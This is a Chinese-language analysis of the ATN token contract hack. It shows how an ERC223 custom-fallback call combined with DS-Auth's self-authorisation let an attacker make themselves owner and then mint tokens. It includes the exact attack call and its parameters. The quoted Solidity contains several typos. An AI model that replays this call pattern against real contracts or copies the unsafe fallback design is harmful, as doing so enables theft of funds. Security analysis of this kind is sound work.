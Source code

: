 ```javascript
  function transferFrom(address _from, address _to, uint256 _amount,
  bytes _data, string _custom_fallback) public returns (bool success)
  {
  ...
  ERC223ReceivingContract receiver =
  ERC223ReceivingContract(_to);
  receiving.call.value(0)(byte4(keccak256(_custom_fallback)), _from, amout, data);
  ...
  }
```

当黑客[转账](https://etherscan.io/tx/0x3b7bd618c49e693c92b2d6bfb3a5adeae498d9d170c15fcc79dd374166d28b7b "转账")时在方法中输入以下参数：

```javascript
transferFrom( hacker_address, atn_contract_address, 0, 0,
    "setOwner(address)")

    _from: 0x2eca25e9e19b31633db106341a1ba78accba7d0f -- 黑客地址
    _to: 0x461733c17b0755ca5649b6db08b3e213fcf22546 -- ATN合约地址
    _amount: 0
    _data: 0x0
    _custom_fallback: setOwner(address)
```

该交易执行的时候 receiver 会被 `_to(ATN合约地址)` 赋值， ATN 合约会调用 `_custom_fallback` 即 DSAuth 中的 setOwner(adddress) 方法，而此时的 msg.sender 变为 ATN 合约地址，`owner_`参数为`_from(黑客地址)`

ds-auth库中setOwner [代码](https://github.com/dapphub/ds-auth/blob/c0050bbb6807027c623b1a1ee7afd86515cdb004/src/auth.sol#L36 "代码")如下：

```javascript
functuin setOwner(address owner_) public auth
    {
    own = owner_;
    LogSetOwner(owner);
    }
```    

此时 setOwner 会先验证 auth 合法性的，而 msg.sender 就是ATN的合约地址。setOwner 的 modifier [auth](https://github.com/dapphub/ds-auth/blob/c0050bbb6807027c623b1a1ee7afd86515cdb004/src/auth.sol#L52 "auth") 代码如下：

```javascript
modifier auth {
    require(isAuthorized(msg.sender, msg.sig));
    _;
}
function isAuthorized(address src, bytes4 sig) internal view returns
(bool) {
  if (src == address(this)) { //此处的src与ATN合约地址一致返回true
return true;
} else { … }
```

通过利用这个ERC223方法与DS-AUTH库的混合漏洞，黑客将 ATN Token合约的 owner 变更为自己控制的地址。获取 owner 权限后，黑客发起[另外一笔交易](https://etherscan.io/tx/0x9b559ffae76d4b75d2f21bd643d44d1b96ee013c79918511e3127664f8f7a910 "另外一笔交易")对 ATN 合约进行攻击，调用 mint 方法给另外一个地址发行 1100wATN。
